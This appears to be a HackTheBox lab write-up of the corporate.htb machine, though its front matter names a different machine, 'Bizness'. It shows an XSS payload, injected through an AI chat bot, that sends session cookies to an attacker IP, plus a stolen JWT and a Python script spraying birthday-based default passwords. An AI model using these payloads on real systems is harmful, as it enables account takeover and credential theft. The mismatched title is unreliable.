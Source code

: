```yaml
---
layout: post
title:  Bizness
description: Bizness is a Easy-difficulty Linux machine that focuses on a CVE...
date:   2024-08-07 08:01:35 -0500
image:  '/images/bizness01.jpg'
tags:   [HackTheBox, CTF, Retired, Linux, Easy]
featured: true
---
```

<div class="heading-wrapper">
    <h3 class="heading" id="Fuzzing">Fuzzing:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            <input type="checkbox" class="task-list-item-checkbox" checked> ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u <a href="http://corporate.htb" target="_blank">http://corporate.htb</a> -H 'Host: FUZZ.corporate.htb' -fs 175
        </li>
        <li class="task-list-item is-checked">
            <strong>Subdomains:</strong>
            <ul>
                <li>support.corporate.htb</li>
                <li>git.corporate.htb</li>
                <li>sso.corporate.htb</li>
                <li>people.corporate.htb</li>
            </ul>
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Web_Exploration">Web Exploration:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            There is an AI chat bot we can seemingly take advantage of.
            <ul class="contains-task-list">
                <li>
                    We are able to send <code>&lt;html&gt; scripts</code> through the chat bot and it seems to be rendering the scripts.
                    <ul>
                        <li><code>XSS</code> Vulnerable.</li>
                    </ul>
                </li>
                <li>
                    We attempt <code>javascript</code> but it is blocking processing JavaScript with <code>CSP</code> <strong>Content-Security-Policy</strong>.
                </li>
            </ul>
        </li>
    </ul>
    <pre><code>|   | |---| |Content-Security-Policy<br>base-uri 'self'; <br>default-src 'self' http://corporate.htb http://*.corporate.htb; <br>style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://maps.googleapis.com https://maps.gstatic.com; <br>font-src 'self' https://fonts.googleapis.com/ https://fonts.gstatic.com data:; <br>img-src 'self' data: maps.gstatic.com; <br>frame-src https://www.google.com/maps/; <br>object-src 'none'; <br>script-src 'self'|`
    </code></pre>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Exploring_available_JavaScript">Exploring available JavaScript:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Here is a curl command that attempts to access that javascript and shows that its possible to access it.
            <pre><code>curl -sS '<a href="http://corporate.htb/assets/js/analytics.min.js?v=froggie" target="_blank">http://corporate.htb/assets/js/analytics.min.js?v=froggie</a>'</code></pre>
        </li>
        <li class="task-list-item is-checked">
            We can see that it's possible to exploit this javascript. We can craft a URL to send the chatbot now to grab some session cookies.
            <pre><code>&lt;meta http-equiv="refresh" content="0; url=http://corporate.htb/%3Cscript+src='/vendor/analytics.min.js'%3E%3C/script%3E%3Cscript+src='/assets/js/analytics.min.js?v=document.location=`http://10.10.14.34:34000/${document.cookie}`'%27%3C/script%3E"/&gt;</code></pre>
            Sending this script to the chat bot while having a listening server on our attack box will grab a cookie.
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Cookie_Theft">Cookie Theft:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Setup your server for cookie theft. <code>python -m http.server 34000</code>
            <ul>
                <li>We grab a cookie for <code>CorporateSSO</code></li>
                <li>Set the cookie in your browser. Set the path to <code>/</code> and the domain to <code>.corporate.htb</code> /Value=<code>eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3MSwibmFtZSI6Ikp1bGlvIiwic3VybmFtZSI6IkRhbmllbCIsImVtYWlsIjoiSnVsaW8uRGFuaWVsQGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3MjE3NTk4OTksImV4cCI6MTcyMTg0NjI5OX0.peLklF24DypFH8xEUc2VajwwItqc6R7kHzAAgASQ1fE</code></li>
            </ul>
        </li>
        <li class="task-list-item is-checked">
            After setting the cookie then clicking sign in on <code>people.corporate.htb</code> we have access to the panel under the user <code>Julio Daniel</code>.
            <ul>
                <li>Access to some panels but nothing really stands out too much at first.</li>
                <li>We have a <code>sharing folder</code> where people can share files.</li>
                <li>Chat where employees can chat.
                    <ul>
                        <li>Clicking on profile images sends us to the user's profiles.
                            <ul>
                                <li>Vulnerable to <code>IDOR</code>. We can navigate between users in the browser by changing the user number.</li>
                            </ul>
                        </li>
                    </ul>
                </li>
                <li>There is an <code>openvpn</code> file that I can download. Probably gives access to a VPN to get into the internal network.</li>
            </ul>
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="IDOR">IDOR:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            We are able to perform some IDOR with curl and get the files of other users onto our current user's sharing folder. I can't get this to work so I'm moving on.
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Brute_Forcing_Users">Brute Forcing Users:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            There's an email we can look at that gives us an "On-boarding" playbook. It has a generic password format for new employees.
            <ul>
                <li>We can use this basic template and brute force all users we know to see if they forgot to change their passwords.</li>
            </ul>
        </li>
    </ul>
    <pre><code>#!/usr/bin/env python3

import re
import requests

cookie = {"CorporateSSO": "YOUR_COOKIE_HERE"}

for i in range(5000, 5100):
    resp = requests.get(f"http://people.corporate.htb/employee/{i}", cookies=cookie)
    if "Sorry, we couldn't find that employee!" in resp.text:
        continue

    user_name = re.findall(r"(\w+\.\w+)@corporate.htb", resp.text)[0]
    birthday_str = re.findall(r'&lt;th scope="row"&gt;Birthday&lt;/th&gt;\s+&lt;td&gt;(\d{1,2}/\d{1,2}/\d{4})&lt;/td&gt;', resp.text)[0]
    m, d, y = birthday_str.split('/')
    password = f"CorporateStarter{d.zfill(2)}{m.zfill(2)}{y}"
    resp_login = requests.post('http://sso.corporate.htb/login', data={'username': user_name, 'password': password}, allow_redirects=False)
    if "/login?error=Invalid%20username%20or%20password" not in resp_login.text:
        print(f"{user_name}: {password}")</code></pre>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="OpenVPN">OpenVPN:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Downloaded an <code>openvpn</code> file from <code>elwin.jones</code> and connected:
            <pre><code>sudo openvpn elwin-jones.ovpn</code></pre>
            <ul>
                <li>We can see the <code>tun1</code> interface being created on our attacking box.</li>
            </ul>
        </li>
    </ul>
</div>

</body>
</html>
